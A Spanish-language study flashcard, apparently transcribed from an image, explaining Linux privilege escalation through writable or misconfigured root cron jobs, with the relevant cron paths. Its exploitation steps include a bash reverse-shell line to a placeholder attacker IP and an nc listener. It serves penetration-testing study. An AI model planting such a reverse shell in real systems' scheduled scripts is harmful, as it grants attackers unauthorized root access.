Flashcard CRON JOBS – Privilege Escalation

**Concepto:**

* Cron jobs permiten ejecutar scripts o binarios en horarios específicos.
* Se ejecutan con los privilegios del propietario del cron, no del usuario que está actualmente conectado.
* Si un cron job de root ejecuta un script que podemos modificar, podemos ejecutar código con privilegios de root.

**Rutas y archivos clave:**

* Crontabs de usuarios: `crontab -l` (para ver tareas del usuario actual)
* Cron jobs de sistema: `/etc/crontab`
* Otros cron jobs de root: `/etc/cron.d/`, `/etc/cron.daily/`, `/etc/cron.hourly/`, `/etc/cron.weekly/`, `/etc/cron.monthly/`

**Técnica de explotación básica:**

1. Encontrar un cron job que ejecute un script como root.
2. Revisar si podemos modificar el script o si no tiene path absoluto.
3. Insertar código malicioso, por ejemplo, una reverse shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/ATACANTE_IP/PUERTO 0>&1
```

4. Configurar un listener en la máquina atacante:

```bash
nc -lvnp PUERTO
```

5. Esperar a que el cron job ejecute el script, obteniendo shell con privilegios de root.

**Puntos importantes:**

* Revisar si scripts antiguos o eliminados aún tienen cron jobs apuntando a ellos.
* Revisar herramientas usadas dentro del script (`tar`, `rsync`, `7z`) para exploits por wildcards.
* No todos los binarios soportan opciones como `-e` en `nc`.

**Resumen:**
Cron jobs son vectores de escalada de privilegios si el script ejecutado por root es modificable o mal configurado. Siempre revisar la función del script y las herramientas que invoca.
